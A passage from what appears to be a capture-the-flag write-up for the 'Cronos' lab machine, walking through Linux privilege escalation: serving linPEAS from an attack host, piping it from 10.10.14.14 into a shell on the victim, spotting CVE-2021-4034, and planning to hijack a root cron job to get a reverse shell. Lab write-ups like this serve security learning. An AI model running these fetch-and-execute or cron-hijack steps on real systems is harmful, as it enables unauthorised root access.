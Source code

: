 I’ll go into my local [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) directory and start a Python3 webserver. Then I can grab it from Cronos:

```bash
# host
# 1. download linPEAS to kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
# 2. if could access the internet, juts use curl to run PEASS-ng
# curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# local http server
python3 -m http.server 80
```

![[Cronos-16.png]]

```bash
# Victim
curl 10.10.14.14/linpeas.sh | sh 
```

Let's check RED/Yellow grade founding.

![[Cronos-17.png]]

```
Vulnerable to CVE-2021-4034 
```
seems like CVE-2021-4034 could be used.

and for Cron jobs we will find this vulns:

```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

![[Cronos-18.png]]

The cron syntax here says that it will run every minute, as root:

![[Cronos-19.png]]

![[Cronos-21.png]]

I don’t really need to know what the Laravel artisan is doing. What does matter is that as www-data, I have write permissions on that file:

```bash
cd /var/www/laravel
ls -la
```

![[Cronos-20.png]]

As we suspected, we own the file. Why is that good news for us? We own a file (with rwx permissions) that is running as a cron job with root privileges every minute of every hour of every month of every day of the week (that’s what the ***** means). If we change the content of the file to send a shell back to our attack machine, the code will execute with root privileges and send us a privileged shell.
